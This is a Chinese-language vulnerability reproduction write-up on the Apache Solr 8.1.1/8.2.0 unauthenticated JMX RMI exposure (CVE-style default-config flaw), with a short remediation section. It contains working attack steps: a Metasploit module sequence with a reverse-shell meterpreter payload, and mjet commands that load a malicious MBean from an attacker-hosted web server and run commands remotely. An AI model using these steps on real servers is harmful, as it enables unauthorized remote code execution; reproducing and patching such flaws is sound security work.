



#### 漏洞简介

近日安全研究人员JanHøydahl披露了Apache Solr的8.1.1和8.2.0发行版中的默认配置文件solr.in.sh,在其配置文件中ENABLE_REMOTE_JMX_OPTS字段值默认为”true”.如果使用受影响版本中的默认配置,那么将启用JMX监视服务并将对公网监听一个18983的RMI端口,且无需进行任何身份验证.如果防火墙中的入站流量打开了此端口，则只要具有Solr节点网络访问权限就能够访问JMX，并且可以上传恶意代码在Solr服务器上执行.

该漏洞不影响Windows系统的用户,仅影响部分版本的Linux用户。


#### 影响版本

solr 8.1.1

solr 8.2.0

#### 环境搭建

直接去官网下载solr 8.2.0版本，然后运行目录下的bin/solr
`./solr start -p 8983`

然后使用msf直接上手,可直接拿到shell

```
use exploit/multi/misc/java_jmx_server
set payload java/meterpreter/reverse_tcp
set LHOST  攻击机ip
set RPORT 18983
set RHOST 目标机ip
run
```



当然，msf总是显得有点笨拙了。还可以利用mjet(https://github.com/mogwailabs/mjet)来利用这个漏洞

mjet使用方法直接去github上看，先是部署恶意Mbean

`java -jar jython-standalone-2.7.0.jar mjet.py 127.0.0.1 18983 install super_secret http://127.0.0.1:8000 8000`



因为我是在本地复现的漏洞，所以我的目标机与web服务器都是填的127.0.0.1，上面的命令执行过程中会在本地搭建一个Web服务器，并把恶意Bean部署到http://127.0.0.1:8000/,然后还会让目标机远程加载我们部署的恶意Mbean，并在目标机上创建这个Mbean,相当于复制过去了。
然后我们就可以利用jmx协议控制这个恶意Mbean,以实现RCE，本地运行如下命令：

`java -jar ../jython-standalone-2.7.0.jar mjet.py 127.0.0.1 18983 command super_secret "pwd"`

其中super_secret是我们上一步设置的密码。




#### python poc

其实有了mjet这些了还要啥python poc啊，因为涉及到使用jmx协议，我看到有个库是Jype,可以调用java代码，但是比起Jython也并没有简单多少....所以老老实实用Jython挺好。其实一开始我打算写python poc的时候有个误区，当时我一直觉得必须要恶意的Mbean才能验证这个漏洞，但是后面小伙伴告诉我直接用dnslog的方式验证也可以，我一想确实是这样，所以，要是不想用jython可以直接抓取攻击过程jmx协议的流量，然后再利用socket发包的形式来复现漏洞利用流程，以实现一个纯python的poc。当然我最后不是这么干的～

在写这个poc的过程中，我了解到如果在使用Jython过程中，java跑出了异常，那么是不能用except Exception as e这种方式捕获的，而是如下形式：
```python
try:
    xxxxx
except:
    xxxxx
```

也就是不用Exception


#### 修复

既然是默认配置导致的问题，那么把配置改一下就好了,文件solr.in.sh中ENABLE_REMOTE_JMX_OPTS字段值改为false


#### 附

   -  1.启动托管MLet和含有恶意MBean的JAR文件的Web服务器

    - 2.使用JMX在目标服务器上创建MBeanjavax.management.loading.MLet的实例

    - 3.调用MBean实例的getMBeansFromURL方法，将Web服务器URL作为参数进行传-递。JMX服务将连接到http服务器并解析MLet文件

    - 4.JMX服务下载并归档MLet文件中引用的JAR文件，使恶意MBean可通过JMX获取

    - 5.攻击者最终调用来自恶意MBean的方法


还是很值得学习的一种攻击方式
